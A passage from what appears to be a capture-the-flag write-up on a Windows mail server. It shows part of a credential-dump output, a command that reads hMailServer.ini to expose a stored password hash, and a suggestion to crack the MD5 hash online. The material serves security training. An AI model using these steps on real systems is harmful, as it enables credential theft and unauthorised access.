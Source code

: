 ```shell
         * Username : wrohit
         * Domain   : BRICK-MAIL
         * Password : [REDACTED]
        kerberos :
         * Username : wrohit
         * Domain   : BRICK-MAIL
         * Password : (null)
        ssp :
        credman :

[...]
```

## What is the password to access the hMailServer Administrator Dashboard ?

**hMailServer** stores the passwords in **MD5** in the `hMailServer.ini`, so we can open it and find the encrypted Administrator password :

```shell
C:\Users\wrohit\Documents>type "C:\Program Files (x86)\hMailServer\Bin\hMailServer.ini"
type "C:\Program Files (x86)\hMailServer\Bin\hMailServer.ini"
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=[REDACTED]
[Database]
Type=MSSQLCE
Username=
Password=47f104fa02185e821a83b2cfa56cf4ec
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```

As we know that **MD5** is a weak encryption algorithm, we can try first to use a famous tool like **CrackStation** to first test it, and obtain the weak Administrator password :
